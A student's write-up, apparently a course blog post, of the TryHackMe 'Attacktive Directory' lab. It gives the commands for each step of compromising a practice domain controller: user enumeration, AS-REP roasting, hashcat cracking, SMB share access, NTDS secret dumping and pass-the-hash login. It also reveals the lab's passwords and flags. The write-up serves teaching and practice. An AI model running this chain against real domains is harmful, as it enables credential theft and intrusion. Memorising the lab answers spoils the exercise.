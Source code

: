 ```yaml
---
layout: post 
$lightGray title: Lab 1 
---
```


Post for Lab 9 - 5/5/2021


## **Attacktive Directory** 

**Task 3 - Enumeration**

I started the room by deploying the machine, ensuring I had Impacket installed, and installed Bloodhound and Neo4j.


I then ran an nmap scan on the machine using the machine IP. `nmap -sC -sV -oA nmap/attactive-open-ports -T4 [Machine IP]`. The -sC flag performs a script scan using default set of scripts. The -sV enables version detection and -Oa means output to all formats. This scan just gave me information to answer the task questions and helped me see where to start. I then answered the questions and moved on to the next task.

**Task 4 - Enumeration**

It was time for me to use enum4linux to enumerate ports 139 and 445. The command being: `enum4linux -A  spookysec.local`. As prompted by the task description, I installed the Kerbrute tool using the command, `go get github.com/ropnop/kerbrute`. After this, the following command was used to pre-auth bruteforce using the username feature. `~/go/bin/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt` This resulted in thirteen accounts. The two that popped out to me were "svc-admin" and "backup".

**Task 5 - Exploitation**

This next task involved using a tachinque known as ASREPRoasting which retrieves password hashes from users who do not have Kerbos pre-auth selected. Using the GETNPUsers.py tool in Impacket, I was able to query the vulnerable accounts from the Key Distribution Center. In this case, I used the tool to retrieve the password hash from the svc-admin account. `python3 GetNPUsers.py spookysec.local/svc-admin` This rewarded me with the hash that I would be able to crack using Hashcat. In order to find the mode, I had to look through the hashcat wiki and found the matching mode to the hash I was given. Then, I used the provided password list file to crack to hash. `hashcat -m 18200 hash.txt passwordlist.txt --force` This successfully cracked the password: `management2005`

**Task 6 - Enumeration**

So, I now had the username and the password which meant that I could log into SMB and look at the shares from the domain controller. Using smbclient, I used the following command which uses the -L flag to list all shares: `smbclient -L \\\\[Machine-IP]\\ -U 'svc-admin' -P 'management2005'`. I was then logged in and saw six remote shares and found the backup_credentials.txt file in the backup share. Once found, I used `base64 -d backup_credentials.txt` which decoded the file which was encoded in base64.

**Task 7 - Priviledge Escalation**

I then used the backup accound along with the secretsdump.py tool from Impacket. `python3 secretsdump.py -dc-ip spookysec.local backup:backup251786@spookysec.local` This command showed me all of the password hashes that the backup account had access to. This used the DRSUAPI method to get NTDS.DIT secrets. If I wanted to authenticate as the user without the password, I could use a "pass the hash" attack. Finally, the Evil-WinRM tool was used along with the -H flag to use a hash. I finished this task with the the command below. This used the admin hash I found to escalate my priviledges and gain access to the system. 

`evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i spookysec.local`

**Task 8 - Find The Flags**

The last step was simple and volved me navigating to each users desktop to find three flags. I found the the following flags in the following order at the svc-admin, backup, and Administrator accounts: 

TryHackMe{K3rb3r0s_Pr3_4uth}

TryHackMe{B4ckM3UpSc0tty!}

TryHackMe{4ctiveD1rectoryM4st3r}







